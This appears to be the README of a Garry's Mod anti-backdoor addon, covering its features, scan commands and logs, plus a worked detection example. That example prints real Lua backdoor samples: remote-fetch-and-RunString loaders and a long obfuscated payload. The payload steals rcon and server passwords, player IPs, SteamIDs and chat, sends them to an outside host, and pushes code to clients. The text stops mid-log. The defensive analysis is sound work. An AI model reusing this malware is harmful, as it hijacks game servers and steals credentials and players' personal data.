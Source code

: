 # Garry's Mod - Backdoor Shield

Protect your GMod server against backdoors! Block, find, investigate and remove them.

But beware: all detections are based on prohibited function call combinations or on very suspicious terms encountered when scanning "texts". Unfortunately Lua knowledge is required to understand the what's going on.

![image](https://user-images.githubusercontent.com/5098527/167985260-d2e325c7-b310-4eee-a246-ecde898fd5d2.png)

# Incompatibilities

> DO-NOT-USE this addon on servers with paid mods!!!! Many of them have complex DRMs, which in most cases get detected and blocked. This can lead to serious authentication problems and even license loss! If you suspect that your addons are infected, run them along Backdoor Shield in a clean server/GMod instance!

> Avoid addons that set their own environment because they can break, like:
> - gmDoom - https://steamcommunity.com/sharedfiles/filedetails/?id=133300986

Also, consider Backdoor Shield as W.I.P! Know that I don't intend to add fancy features or even make this addon user friendly, this project is a hobbyist experiment.

# What is a backdoor?

> "a backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application. Once they're in, cybercriminals can use a backdoor to steal personal and financial data, install additional malware, and hijack devices." - Malwarebytes

As for backdoors, in GMod very often we confront entire groups with pre-made panels using complex functions, there's a market for that.

Although the security of the game has increased a lot over time, these attacks are still very dangerous as they can culminate in theft of scripts, settings and personal data as well as other types of damage. E.g. someone with improper admin access can either delete all files in the data folder or slowly cause server issues until the players give up on it.

# Features

Backdoor Shield

- Starts before all addons;
- Has the internal code highly protected;
- Has a custom logs system, colored;
- Was tested against 1500+ addons, both from workshop and forums;
- Has a files scanner, that:
  - Can read files from any extension quickly and intelligently;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Uses a weight system to determine which detections are important;
  - Prints the relevant results;
  - Logs detections organized by risk.
- Has real-time protection, that:
  - Checks the functions parameters/arguments;
  - Protects the stack calls checking functions by address;
  - Undoes protected functions detouring;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Can turn off its components individually;
  - Is capable of producing traces even through tail calls;
  - Has a simple extra window to warn of detections;
  - Prints detections to the console;
  - Logs detections both grouped and individually.

Honestly, I don't know of a free GMod scanner that does all this.

# Install

Clone or download the files inside your **addons folder**.

You can also subscribe to BS in the Workshop, but that way you won't be able to change the addon settings later: https://steamcommunity.com/sharedfiles/filedetails/?id=2215013575

# Configure

All settings are in three files in this folder:
- **lua/bs/server/definitions/**

There's one for the file scanner, one for real-time protection, and one for internal behaviour. Everything is documented at each location.

# Commands

As shown in the screenshot above:

    Commands:
    |
    |-> bs_scan FOLDER(S)       Recursively scan lua, txt, vmt, dat and
    |                           json files in FOLDER(S).
    |
    |-> bs_scan_full FOLDER(S)  Recursively scan all files in FOLDER(S).
       
        * If no folder is defined, it'll scan addons, lua, gamemodes and
          data folders.

Be aware that it's better to run these commands on a dedicated server or in lan mode, as in singleplayer the game will practically freeze until the scan finishes.

It's also worth noting that focusing searches is much faster than scanning entire addons libraries, so prefer:

    bs_scan_full addons/myAddonA addons/myAddonB

Another interesting thing to do here is to isolate suspicious files in subfolders within the addons folder (like addons/isolation/suspiciousAddon). That way, the game will mount all the contents but they won't be executed. Obviously the it'll look like this:

    bs_scan_full addons/isolation/suspiciousAddon


Note: there's also the ``bs_tests`` command to aid in development. It's enabled when dev mode is turned on.

# Logs

They're stored in **data/backdoor-shield**.

![image](https://user-images.githubusercontent.com/5098527/167988691-5b611163-0a22-41fc-8011-c38e083c0516.png)

<details><summary>File scanner</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990351-941bd7ef-abc0-4e6a-8600-48e097ca3fde.png"/>

Logs from the file scanner are are organized by date and time. Within them, the information is grouped by risk.

<img src="https://user-images.githubusercontent.com/5098527/167990714-480bb9f3-30df-44f7-bcca-216f14e6c957.png"/>
</p>
</details>

<details><summary>Real-time</summary>
<p>

<img src="https://i.imgur.com/BDk6TJk.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167990081-4d8a0a56-6235-43bd-b08d-da32c3bfd6e4.png"/>

As for the real-time detections, they are in subfolders named by date and are organized in two different ways.

<img src="https://user-images.githubusercontent.com/5098527/167988995-2b2443dc-037f-47c8-91f0-597504ea04ba.png"/>

In the first one, items are grouped by "detections", "warnings" and "detours", as shown above. Within these files the entries are placed in order of occurrence:

<img src="https://user-images.githubusercontent.com/5098527/167989406-cdac9556-a728-424f-9f58-d1198f04cde9.png"/>

In the second, each detection is placed inside subfolders with the name of the detected function and relevant items such as pieces of malicious code.

<img src="https://user-images.githubusercontent.com/5098527/167989468-366ef03a-b663-42cb-907b-8cafb25c8e4c.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167989517-e422463d-d7e1-4293-99a6-724169fa8fba.png"/>
</p>
</details>

# Real-time protection example

The example below was made in an older version of the addon but it's ok, the idea is still very similar to the current one.

## Detection

<details><summary>1) Running two backdoors</summary>
<p>

```lua
-- Dead backdoor:

RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )
```

</p>
</details>

<details><summary>2) The detection occurs</summary>
<p>
<img src="https://i.imgur.com/BDk6TJk.png"/>
<img src="https://i.imgur.com/3yWXO6D.png"/>
</p>
</details>

<details><summary>3) The logs are stored</summary>
<p>
<img src="https://i.imgur.com/DhGWEbU.png"/>
<img src="https://i.imgur.com/XWCwr87.png"/>
</p>
</details>

<details><summary>4) We can see the blocked contents</summary>
<p>

- The first backdoor is dead, since the link inside the content doesn't work

<img src="https://i.imgur.com/PUX4QG3.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: RunString
    Date: 08-29-2020
    Time: 19h 34m 56s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/RunString/log_blocked_(19h 34m 56s).txt
    Detected:
        RunString
        http.Fetch
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'RunString'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:3: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

http.Fetch("http://buriedselfesteem.com/rekt/rekt.lua", function(c) RunString(c) end )
```

- But the second one is doing some stuff

<img src="https://i.imgur.com/6i8xNtz.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 37m 32s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 37m 32s).txt
    Url: https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx
    Detected:
        RunString
        RunString
        http.Fetch
        http.Post
        _G[
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:7: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "


local sKqYgoHBFGNoMavJtTsX = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    "\46\99\102",
    "\46\116\107",
    "\46\121\111\46\102\114",
    "\46\121\110\46\102\114",
    "\46\48\48\48\119\101\98\104\111\115\116",
    "\97\108\119\97\121\115\100\97\116\97\46\110\101\116",
    "\46\103\113",
    "\46\120\121\122",
    "\46\101\115\121\46\101\115",
    "\46\109\108",
    --[[ DOMAINS BACKDOORS ]]
    "\100\114\109\46\103\109",
    "\103\118\97\99\100\111\111\114",
    "\103\118\97\99",
    "\107\112\97\110\101\108",
    "\108\107\112\97\110\101\108",
    "\119\116\102\109",
    "\103\109\97\112",
    "\103\45\104\117\98",
    "\103\112\97\110\101\108",
    "\97\115\116\105\108\108\97\110",
    "\103\104\97\120",
    "\106\101\108\108\121\105\115\97\102\97\103",
    "\115\105\122\122\117\114\112",
    "\104\97\121\108\97\121",
    "\114\118\97\99",
    "\99\105\112\104\101\114\45\112\97\110\101\108",
    "\120\118\97\99\100\111\111\114",
    "\74\117\115\116\45\115\101\114\118",
    "\74\117\115\116\115\101\114\118",
    "\120\101\110\100\111\111\114",
    "\69\120\111\100\111\115\105\117\109",
    "\109\121\119\97\105\102\117",
    "\103\98\108\107",
    --[[ FILES BACKDOORS ]]
    "\115\116\97\103\101\49\46\112\104\112",
    "\115\116\97\103\101\50\46\112\104\112",
    "\101\118\111\46\112\104\112",
    "\101\121\111\46\112\104\112",
    "\98\97\99\107\100\111\111\114\46\112\104\112",
    "\102\108\103\46\94\112\104\112",
    "smart-overwrite",
    "anatik",
    --[[ $_GET BACKDOORS ]]
    "\63\116\111\61",
    "\63\116\111\107\101\110\61",
    "\63\102\117\99\107\95\107\101\121\61",
    "\63\98\97\99\107\100\111\111\114\95\107\101\121\61",
    --[[ DIR BACKDOORS ]]
    "\47\115\121\115\47",
    "\47\99\111\114\101\47",
    "\47\115\101\99\117\114\101\95\97\114\101\97\47"
}


local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP function HTTP(a)     
    if a.url then 
        for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)

",
            2703,
            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=dfe0c3e4f2be8978d00090d7df7dc9e711598740653; expires=Mon, 28-Sep-20 22:37:33 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,__ddg1=ZRzJovYJDvrB2k895vsn; Domain=.omega-project.cz; HttpOnly; Path=/; Expires=Sun, 29-Aug-2021 22:37:33 GMT",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:37:34 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

## Decoding

Let's continue to see what's going on. I won't explain how I deobfuscated the code but I'll show the results and leave this link here https://www.dcode.fr/ascii-code.

<details><summary>1) Here is the active backdoor decoded</summary>
<p>

It's inhibiting other backdoors through some detourings and taking the next step.

```lua
local nKvWQygqjyMKsWkNbsiO = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    ".cf",
    ".tk",
    ".yo.fr",
    ".yn.fr",
    ".000webhost",
    "alwaysdata.net",
    ".gq",
    ".xyz",
    ".esy.es",
    ".ml",
    --[[ DOMAINS BACKDOORS ]]
    "drm.gm",
    "gvacdoor",
    "gvac",
    "kpanel",
    "lkpanel",
    "wtfm",
    "gmap",
    "g-hub",
    "gpanel",
    "astillan",
    "ghax",
    "jellyisafag",
    "sizzurp",
    "haylay",
    "rvac",
    "cipher-panel",
    "xvacdoor",
    "Just-serv",
    "Justserv",
    "xendoor",
    "Exodosium",
    "mywaifu",
    "gblk",
    --[[ FILES BACKDOORS ]]
    "stage1.php",
    "stage2.php",
    "evo.php",
    "eyo.php",
    "backdoor.php",
    "flg.^php",
    "smart-overwrite 10",
    "anatik 10",
    --[[ $_GET BACKDOORS ]]
    "?to=",
    "?token=",
    "?fuck_key=",
    "?backdoor_key=",
    --[[ DIR BACKDOORS ]]
    "/sys/",
    "/core/",
    "/secure_area/",
}

-- Toma as funções do GMod pra ele
local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP

-- Barra o uso de backdoors bloqueando tudo da lista acima
-- (Se estiver limpo, executa a função)

function HTTP(a)
    if a.url then 
        for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>2) I disabled my old Lua snippets, took the end of the decoded script and ran it</summary>
<p>

```lua
-- Dead backdoor:

--RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

--http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>3) Now I got a new detection with a bunch of new things to analyze</summary>
<p>
<img src="https://i.imgur.com/SBwHXDy.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 42m 45s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 42m 45s).txt
    Url: https://api.omega-project.cz/api_connect.php?api_key=
    Detected:
        =_G
        RunString
        CompileString
        BroadcastLua
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:9: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned !
]]

local debug = debug
local error = error
local ErrorNoHalt = ErrorNoHalt
local hook = hook
local pairs = pairs
local require = require
local sql = sql
local string = string
local table = table
local timer = timer
local tostring = tostring
local mysqlOO
local TMySQL
local _G = _G
UzjRokDYxAOWbxLIEiRXmogsroltxsCpQgiEkuIR = {}
local server_key = "UrJPyGUdi"_R=_G
if omega_ed463d5fadf4890eca35eb8ea156c847 == "HGEed463d5fadf4890eca35eb8ea156c847" then return end
omega_ed463d5fadf4890eca35eb8ea156c847="HGEed463d5fadf4890eca35eb8ea156c847"
_R["\95\48\120\54\56\51\50\53\51"]=_R["\104\116\116\112"]["\112\111\115\116"] or "timer"
_R["\95\48\120\52\56\50\51\55\54"]=_R["\104\116\116\112"]["\80\111\115\116"] or "Create"
_R["\95\48\120\49\55\54\53\49\52"]=_R["\72\84\84\80"] or "api.omega-project.cz"
_R["\95\48\120\52\53\49\57\53\54"]=_R["\83\101\114\118\101\114\76\111\103"] or ""
_R["\95\48\120\50\57\54\55\56\55"]=_R["\82\117\110\83\116\114\105\110\103"] or "rcon non trouvé"
_R["\95\48\120\51\52\50\52\53\48"]=_R["\102\105\108\101"]["\69\120\105\115\116\115"] or "print"
_R["\65\120\121\117\110\101\77\90\87\69"] = "api.omega-project.cz"
_R["\104\122\100\65\108\99\118\113\106\114"] = "\97\116\108\97\115\45\99\104\97\116\46\115\105\116\101"
_R["\95\48\120\57\52\48\49\51\55"] = _R["\69\114\114\111\114"]
local pGbSGVIuUevjvQbOFgCc, FCPttlLwqrzAChdIZtnd  = "\80\108\97\121\101\114\73\110\105\116\105\97\108\83\112\97\119\110", "\80\108\97\121\101\114\68\105\115\99\111\110\110\101\99\116\101\100"
local header_GwFWGpHBKMfYqsd = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

-- include request
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_anti_backdoors.php"; method="get"; success=function(api,anti_backdoors) _0x296787(anti_backdoors) end })
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_player_blacklist.php"; method="get"; success=function(api,bad_player_blacklist) _0x296787(bad_player_blacklist) end })

local addons_files, addons_folders = _R["file"]["Find"]("addons/*", "GAME")
for k,v in pairs(addons_folders) do
 if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then
  _0x482376([[https://]]..AxyuneMZWE.."/api_addons.php", {server_ip = _R["game"]["GetIPAddress"](),crsf = "LuicBbIVUSxUbwKyGdOPvHgEVMjRiZFsmMhwEuzy#MTg2LjIyOS4yMjYuMTAy#DcKbgZMolAqhaosmSYVGXXJTAgfyqJvQclnitBUy",addons_name = v, addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))}, function(http_addons) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_addons, 1 ) == "<" or http_addons == "" then 
      return 
     else 
      _0x296787(http_addons) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
 end 
end


util.AddNetworkString("cKdwwjkBzpUSproGWmGe")
_R["BroadcastLua"]([[net.Receive("cKdwwjkBzpUSproGWmGe",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function _0x427940(HsQzhjEtDdhsZssJfpfL)
  timer.Simple( 0.5, function( )
   _R["DATA"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["len"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("cKdwwjkBzpUSproGWmGe")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   _R["\110\101\116"]["\66\114\111".."\97\100\99\97\115\116"]()
  end)
end


util.AddNetworkString("QvQaTLXQJvDEmezmiHYj")
_R["BroadcastLua"]([[net.Receive("QvQaTLXQJvDEmezmiHYj",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function SendPly(HsQzhjEtDdhsZssJfpfL, steamid64)
  timer.Simple( 0.5, function( )
   _R["\100\97\116\97"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["\108\101\110"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("QvQaTLXQJvDEmezmiHYj")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   for k, ply in pairs(player.GetAll()) do
     if ( ply:SteamID64() == steamid64 ) then
        _R["\110\101\116"]["Send"](ply)
     end
   end
  end)
end

_R["\104\111\111\107"]["\65\100\100"](pGbSGVIuUevjvQbOFgCc, "nYQUQrWaerewCmEoqjVUvrrkWFAgjfYzfecgMiiTgymFAonGsT", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd",
         ["\99\111\108\111\114"] = "5dc766",
         ["\99\111\110\116\101\110\116"] = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

_R["\104\111\111\107"]["\65\100\100"](FCPttlLwqrzAChdIZtnd, "msBMAtvKWjUOHFZfNCRBemSkQdJnfwcpcfFnPKfQqxcaKEhMma", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         ["color"] = "de3333",
         ["\99\111\110\116\101\110\116"] = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

function ServerLog( logs_content ) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         content = logs_content, 
         server_ip = _R["game"]["GetIPAddress"]()
    },_0x296787) 
    return _0x451956( logs_content ) 
end 

function Error( string )
  _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
       ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
       ["\99\111\110\116\101\110\116"] = string, 
       ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"]()
  },RunString)
  return _0x940137( string )
end

_R["\116\105\109\101\114"]["\67\114\101\97\116\101"]( "FLPcvsCBTQJoZQGLILQUDEVvRmPRvLoyVXEuMYOSOHMaEXDKse", 1, 0, function()
_R["\104\111\111\107"]["\65\100\100"]( "PlayerSay", "ujLFdRUcqVAoqZwfiMSQpZeWbcvItgnNitYilclAqwPUvxSmZW", function( ply, text )
local http_chat_table = {
    name = ply:Name(), 
    server_ip = _R["GetTcpInfo"](), 
    steamid64 = ply:SteamID64(),
    nyFaIvniEL = "TPlnCsTLWywBNOdjsIEpiZEXJLCAJoQzesllKZlW",
    BtNDxRHcgb = "PCBKWTMGVJirRWrxIPNjkwOesDxXxeFDdpepUfdM",
    jcqaplfenV = "crraFpbGqRmxDQCenENbzIJAuNUFieGTgdJoBiZG",
    LEUJYRpUyx = "aizJdLXTEVPoYQQsgMOdzSwCmNazHfRFrFNnffmT",
    FBWCeMNeTL = "LSxRhSnkNHyrbgtboMNzAiTZFrsnkkcLYGwciHlo", 
    message = text
  } 
_0x482376([[https://]]..AxyuneMZWE.."/chat_connect.php?haoaOPspJnETKyz=trPtLhCynfaGkLt", http_chat_table, function(http_chat) _0x296787(http_chat) end)
end)
if _0x342450("\99\102\103\47\97\117\116\111\101\120\101\99\46\99\102\103","GAME") 
  then local cfile = file.Read("cfg/autoexec.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) do 
    if string.StartWith(v,"rcon_password") 
    then rcon_pw = string.Split(v,"\"")[2] 
   end
  end 
end
if _0x342450("\99\102\103\47\115\101\114\118\101\114\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/server.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end 
if _0x342450("\99\102\103\47\103\97\109\101\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/game.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end  
 if _0x342450("\99\102\103\47\103\109\111\100\45\115\101\114\118\101\114\46\99\102\103","GAME") 
 then cfile = file.Read("cfg/gmod-server.cfg","GAME") 
 for k,v in pairs(string.Split(cfile,"\n")) 
 do if string.StartWith(v,"rcon_password") 
 then rcon_pw = string.Split(v,"\"")[2] 
   end 
  end 
end
if rcon_pw == "" then
 rcon_pw = "Aucun Rcon"
end
for k,v in pairs(player.GetAll()) do 
local DrkaWVDhZhRCHgyRGENj = {
    ["\110\97\109\101"] = v:GetName(),
    ["\105\112"] = v:IPAddress(),
    ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"](),
    ["\99\114\115\102"] = "MMsFDCxvTbPfHnPUwcylyHhezmHbOsBlvhTiNhRz#MTg2LjIyOS4yMjYuMTAy#jSUttWLIHMKvFliWsMJRcDpxwgTHvKxLaPfwDBtZ",
    ["\115\116\101\97\109\105\100"] = v:SteamID(),
    ["\115\116\101\97\109\105\100\54\52"] = v:SteamID64(),
    ["OcvWPRmzdQ"] = "cZEHIshMiGdcmjIwgHRIBVckfUarvjwptUvgdeuw",
    ["khpvEspqLQ"] = "aaQsnnUqsxaGyqJkHqqxHCWJeAJMBHnixRPiFeQk",
    ["cZiGZpQXxK"] = "suKIfVNfRKCTdhQrvzbvKHfPmJMDyVfbdAdBTCtv",
    ["yNpPvxIEYQ"] = "jxcvvCnbgmfVMFbIxDIsIizjgGgSKeOCUTjiWdwm",
    ["NGiFdbJnXv"] = "dcUYvgSiZSvgHzSliHVxdliXIEMLhrzWhJPNpiZy"
  }
_0x482376([[https://]]..AxyuneMZWE.."/user_connect.php?rzfmjhnXKtVupXH=stmWrBHtmIsKpxN&ping=" .. v:Ping(), DrkaWVDhZhRCHgyRGENj, function( http_users ) 
     if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_users, 1 ) == "<" or http_users == "" then
       return
     else
       _0x296787( http_users )
     end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd )
end
  local VsTWOaUGyYXokLUQDOTO = {
    ["\105"] = _R["GetTcpInfo"](),
    ["\110"] = _R["\71\101\116\72\111\115\116\78\97\109\101"](),
    ["\109"] = _R["\103\97\109\101"]["\71\101\116\77\97\112"](),
    ["\98\111"] = _R["\116\111\115\116\114\105\110\103"](#_R["\112\108\97\121\101\114"]["\71\101\116\66\111\116\115"]()),
    ["\99"] = _R["\103\97\109\101"]["\71\101\116\73\80\65\100\100\114\101\115\115"]().."{+}"..server_key.."{+}".."1598740966",
    ["\103"] = _R["\101\110\103\105\110\101"]["\65\99\116\105\118\101\71\97\109\101\109\111\100\101"](),
    ["\99\114\115\102"] = "MTg2LjIyOS4yMjYuMTAy#HAxFpswxUQiTyulaKvyYIkQxTCoXuLzjFBBoHsfC",
    ["\110\98"] = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
    ["\108\117\114\108"] = _R["GetConVar"]("sv_loadingurl"):GetString(),
    ["\112\97\115\115"] = GetConVar("\115\118\95\112\97\115\115\119\111\114\100"):GetString(),
    ["\107"] = "",
    ["\99\108\105\101\110\116".."_".."\102\117\110\99"] = "_0x427940",
    ["\114"] = rcon_pw,
    ["eBQErysiKP"] = "XDuoiBjxoHEwaPvznpkehEuKxGcGxwsAoxBzjpAZ",
    ["dufqbNcvWE"] = "NrpfyEcyJIyupTUKZTaRoxzouNBZZHtYnuGxxLaF",
    ["GxRQEDghgj"] = "XJGGIQUzmaJxUsZZUUdTCyKuTlotFXznZhEgWZoe",
    ["ECFmDAYImx"] = "WvXwVKAUamKSoEAOVmzbHCyxhvVnDjOrLsasylcp",
    ["TlQPyMqTiE"] = "pVMWPprumKRsZrYSjDVCkoSOZsCwGWLWGlgSZNWt"
  }
  _0x482376("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", VsTWOaUGyYXokLUQDOTO, function(http_servers) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_servers, 1 ) == "<" or http_servers == "" then 
      return 
    else 
      _0x296787(http_servers) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
end)

if 1 == 0 or 1 == 1 then
   local no_spam_plz = "cGhYBOTiQHkqBsENnrGnMPLxvwfEEwZlnpxlZHUHDCWdlWrrYB"
   CONNECTED_TO_MYSQL = true
   local all_server = sql.Query("SELECT * FROM server_list")
end

",
            11300,
